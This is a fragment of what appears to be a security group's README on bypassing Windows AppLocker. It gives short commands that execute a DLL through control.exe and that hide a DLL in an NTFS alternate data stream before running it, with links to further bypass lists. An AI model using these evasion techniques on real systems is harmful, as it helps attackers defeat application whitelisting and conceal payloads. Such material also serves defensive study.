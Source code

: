 https://twitter.com/subTee/status/793151392185589760





## 11.control


``` 
control  .\example\runcalc.dll
``` 



## 12.ADS
``` stylus
      type .\example\runcalc.dll >  .\example\demon:secist.dll 
      control   .\example\demon:secist.dll
``` 
LINK: https://twitter.com/bohops/status/954466315913310209

https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/


## Ultimate AppLocker ByPass List

LINK:
https://github.com/milkdevil/UltimateAppLockerByPassList



## 作者（About Us）

+ 即刻安全(Secist Sec)
    + ----> [Demon](www.ggsec.cn)
   ## 作者（About Us）

+即刻安全纯技术交流群：307283889


